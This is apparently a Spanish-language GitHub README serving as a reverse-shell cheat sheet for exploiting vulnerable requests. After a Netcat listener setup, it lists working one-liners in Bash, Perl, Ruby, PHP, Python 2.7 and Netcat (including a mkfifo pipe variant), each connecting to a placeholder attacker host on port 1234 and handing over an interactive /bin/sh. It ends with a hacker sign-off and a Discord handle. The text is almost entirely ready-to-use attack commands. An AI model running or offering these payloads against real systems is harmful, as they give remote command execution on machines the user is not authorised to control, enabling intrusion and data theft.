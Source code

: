 # Reverse Shell

> Trucos para obtener un shell en una peticion vulnerable, se depende del lengueje que acepte las peticiones, requiere configurar previamente un puerto de escucha.

### Configuracion
* **Abre un puerto en tu maquina atacante con Netcat** - es el puerto que con el configuras el shell, estos ejemplos estan configurados con el 1234, puedes modificar el puerto
 
    nc -lvnp 1234
  
* **Modifica la IP en el shell por la de IP-attacker** [Configura el Host](https://github.com/heancako311299/githack)

### Bash

   bash -i >& /dev/tcp/IP-attacker/1234 0>&1
    
### Perl

   perl -e 'use Socket;$i="IP-attacker";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   
### Ruby

   ruby -rsocket -e'f=TCPSocket.open("IP-attacker",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
### Php

   php -r '$sock=fsockopen("IP-attacker",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
### Python 2.7
    
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-attacker",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
### Netcat método -e

   nc -e /bin/sh IP-attacker 1234

### Netcat versiones antiguas

   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP-attacker 1234 >/tmp/f

h4Ppy #@cK1n6 :)
> Discord: heanczko#4478
